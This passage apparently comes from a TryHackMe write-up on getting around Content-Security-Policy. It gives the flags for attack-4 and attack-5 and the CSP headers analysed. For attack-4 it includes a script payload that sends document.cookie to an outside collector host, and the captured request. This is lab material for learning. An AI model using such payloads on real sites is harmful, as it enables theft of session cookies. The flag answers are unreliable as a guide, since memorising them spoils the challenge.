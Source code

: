 <br>
<br>
<br>
<p>7.4. Flag for attack-4<br>
<code>THM{Style_Y0ur_W3bs1teS}</code></p>

<p><em>researcher.beeceptor.com</em></p>
<br>

<img width="1125" height="428" alt="image" src="https://github.com/user-attachments/assets/f09cd883-c2dd-4cfc-ab76-c620c40a1bd6" />

<br>

<p><em>CSP Evaluator</em></p>
<br>

```bash
Content-Security-Policy: default-src 'none'; style-src * 'self'; script-src 'nonce-abcdef'
```

<br>

<img width="1086" height="424" alt="image" src="https://github.com/user-attachments/assets/2dae1bdf-9ad3-4f21-bf2c-360f37d3e630" />

<br>
<p><em>payload</em></p>

```bash
<link id="researcher" rel=stylesheet href="" /><script nonce="abcdef">document.getElementById('researcher').href="https://researcher.free.beeceptor.com/" + document.cookie;</script>
```

<br>

<p><em>researcher.beeceptor.com</em></p>

```bash
 GET /flag=THM%7BStyle_Y0ur_W3bs1teS%7D
```

<br>
<br>
<br>
<p>7.5. Flag for attack-5<br>
<code>THM{N0_JSONP_D0mains_Plz}</code></p>

<p><em>CSP Evaluator</em></p>
<br>

```bash
Content-Security-Policy: default-src 'none'; style-src 'self'; img-src *; script-src 'unsafe-eval' *.google.com
```

<br>

<img width="1112" height="425" alt="image" src="https://github.com/user-attachments/assets/50021b52-32c1-4d96-9c27-b0bb0abf20d7" />

